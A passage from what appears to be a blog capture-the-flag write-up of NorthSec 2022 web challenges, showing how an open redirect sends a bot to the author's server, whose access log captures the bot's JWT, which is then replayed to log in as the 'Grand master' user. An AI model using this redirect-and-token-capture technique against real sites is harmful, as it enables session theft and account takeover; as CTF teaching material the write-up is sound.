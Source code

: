 It worked because the query returns one (empty) row.

![Redirect 101](/will-hack-for-coffee/assets/images/nsec2022/redirect101.png){: #redirection .centered}

I tought open redirect was a minor vulnerability? I browsed the site and there was two links:

![Open redirect 101](/will-hack-for-coffee/assets/images/nsec2022/open-redirect101.png)

Navigating the first link and looking at Burp I saw that there was a redirect containing a JWT (Jason Web Token):

![JWT redirect](/will-hack-for-coffee/assets/images/nsec2022/jwt-redirect.png)

You can use [jwt.io](https://jwt.io) to confirm it's a JWT and check what's inside the token:

![jwt.io](/will-hack-for-coffee/assets/images/nsec2022/jwt-io.png)

The next link on the website allows you to provide an URL and the "Grand master pentester" will visit it. Our team owned a small server on the NorthSec network so I redirected him there instead:

<http://chal5.hackademy.ctf/?sub_url=http://shell.ctf>

**Note: This year Apache was not installed on our server. No Apache, no problem! Just run this command before delivering your crafted url:**
````
apt install apache2
````

Looking at our server log:
````
...
root@ctn-shell:/var/log/apache2#cat access.log
...
9000:91a:201:cdba:216:3eff:fe01:b3fd - - [21/May/2022:05:56:49 +0000] "GET /?identity=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9zdWIuY2hhbDUuaGFja2FkZW15LmN0ZlwvIiwiaWF0IjoxNjUzMTEyNjA5LCJuYmYiOjE2NTMxMTI2MDksImV4cCI6MTY1MzExMjkwOSwidXNlciI6IlVuZm9ydHVuYXRlIFBlbnRlc3RlciIsInJvbGUiOiJHcmFuZCBNYXN0ZXIgUGVudGVzdGVyIn0.Cv8ROC8pX7HMXwSnjgtYvQbqFVEc2xOqEz9dLiDnt0s HTTP/1.1" 200 11173 "-" "-"
````
You can see his JWT token. 

![Master JWT](/will-hack-for-coffee/assets/images/nsec2022/master-jwt.png)

Browse to:

<http://chal5.hackademy.ctf/?identity=(insert grand master JWT)>

and you will be redirected and logged in as the master.

![Grand master credentials](/will-hack-for-coffee/assets/images/nsec2022/grand-master-credentials.png)

![Serialize101](/will-hack-for-coffee/assets/images/nsec2022/serialize101.png){: #serialization .centered}

A simple Hello word! page with the source available. There is also weird **s** parameter that I will tamper with later.
